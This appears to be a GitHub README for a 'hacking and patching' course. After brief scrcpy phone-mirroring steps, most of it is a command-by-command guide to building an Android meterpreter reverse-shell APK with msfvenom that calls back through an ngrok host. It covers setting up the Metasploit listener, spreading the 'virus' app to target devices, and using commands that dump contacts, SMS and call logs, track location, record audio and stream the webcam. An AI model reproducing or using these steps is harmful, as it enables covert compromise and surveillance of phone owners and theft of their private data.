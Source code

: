 # LINUX GUIDE
# Hacking-and-Patching
The fundamentals of computer and network security specializations. Hacking and patching, it is a short course title, but it says it all. This repository explains how to hack devices with command injection vulnerability.

# 1. SCRCPY MODULE
Using the scrcpy module is quite easy but still brainstorming on it additional functions
  # STEPS:
  1. Install scrcpy: use the command 'apt-get install scrcpy'
  2. Enable developer mode on the android to be coonected to the PC
  3. Enable USB Debugging 
  4. Connect the USB cord to the PC
  5. In your linux VM enable connection to the VM
  6. Type 'scrcpy' after successful connection to the VM and you should see your phone screen displayed on your VM

# 2. METASPLOIT FRAMEWORK
Knowledge is power, especially when it’s shared. A collaboration between the open source community and Rapid7, Metasploit helps security teams do more than just verify vulnerabilities, manage security assessments, and improve security awareness; it empowers and arms defenders to always stay one step (or two) ahead of the game.
  # ANDROID HACKING: using NGROK
  First make sure your antivirus does not interfere with your machine 
  1. download from link: https://ngrok.com/
  2. download the file and extract using 'sudo tar xvzf ngrok-stable-linux-amd64.tgz' in the directory where it was downloaded
  3. first sign-up to get an auth-token
  4. Then in your VM command line input: './ngrok [authtoken]'
  5. msfvenom --platform android -p android/meterpreter/reverse_tcp LHOST=4.tcp.ngrok.io LPORT=4444 R > /home/kali/Hacking/android-exploitation/virus.apk 
  
  Here:
  -p indicates a payload type
  android/metepreter/reverse_tcp specifies a reverse meterpreter shell would come in from a target Android device
  LHOST is your local IP
  LPORT is your IP’s listening port
  /home/kali/Hacking/android-exploitation would give the output directly
  apk is the final malicious app
  If you navigate to the output path /home/kali/Hacking/android-exploitation, we’ll find the injected apk file
  
  6. We need to set a listener on our PC/server. If the target device installs and opens the “virus.apk” application, it’ll start sending a reverse connection to our listener.
  To create a listener using Metasploit, run these commands:
  7. Run 'msfconsole'
  8. use exploit/multi/handler
  9. set payload android/meterpreter/reverse_tcp
  10. set LHOST 4.tcp.ngrok.io
  11. set LPORT 5544
  12. exploit 
  
  install the 'apk' on the targetted device and open the app. If the user opens the app, it’ll send a connection to our listener and create a session. We can install the virus     app on many devices.
  To sell all sessions, run "background" command from the listener console. It’ll show all available connected devices sessions
  Available Commands
We can then enter help to see all the Android meterpreter commands.

I’m sharing some commands. Have a look:

  
      Command                  Description
  1. app_list--	              Show all installed applications
  2. app_install--	          Request to install apk file
  3. app_run--	              Start an application
  4. app_uninstall--	        Request to uninstall application
  5. dump_contacts--	        Get all contacts and save in our PC
  6. dump_calllog--	          Get call log and save in our PC
  7. dump_sms--	              Get all sms and save in our PC
  8. send_sms--	              Send sms to any number
  9. geolocacte--	            Current lat and long of the device
  10. record_mic--	          Sound recorder
  11. webcam_list--           Available cameras
  12. webcam_snap 1/2/3--	    Take photo by selecting camera
  13. webcam_stream 1/2/3--	  Open specific camera and live streaming

  
  
# Detecting Command Injection
The pdf "Commix: Detecting and exploiting command injection flaws.", is by Anastasios Stasinopoulos, Christoforos Ntantogian, Christos Xenakis from Department of Digital Systems, University of Piraeus.

